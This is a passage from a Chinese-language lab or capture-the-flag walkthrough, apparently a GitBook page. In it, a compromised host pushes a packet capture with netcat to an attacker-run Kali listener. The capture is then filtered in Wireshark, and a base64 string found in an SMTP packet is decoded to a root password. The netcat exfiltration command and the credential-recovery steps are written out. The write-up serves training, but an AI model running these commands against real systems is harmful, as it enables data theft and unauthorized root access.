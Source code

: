 ![](<../../.gitbook/assets/image (26) (1) (1) (1) (1).png>)

使用nc命令传输数据。

```
#靶机
[alex@websrv01 tmp]$ chmod +x nc
[alex@websrv01 tmp]$ ./nc -w 3 192.168.32.130 8000 < wireshark_pcapng_any_20211227090725_V7WCH2

#kali
┌──(root💀kali)-[/opt]
└─# nc -lvnp 8000 > wireshark.pcap
listening on [any] 8000 ...
connect to [192.168.32.130] from (UNKNOWN) [192.168.32.139] 42498
```

先排除SSH协议数据包

```
!(ip.addr==192.168.32.130)
```

找到一个SMTP的数据包，里面有一段base64加密的字符串

![](<../../.gitbook/assets/image (8) (1) (1) (1) (1).png>)

解密字符串，得到root密码

```
┌──(root💀kali)-[~/Downloads]
└─# echo AHJvb3QAQVNmb2pvajJlb3p4Y3p6bWVkbG1lZEFTQVNES29qM28= | base64 -d
rootASfojoj2eozxczzmedlmedASASDKoj3o                                                                                                                     
```

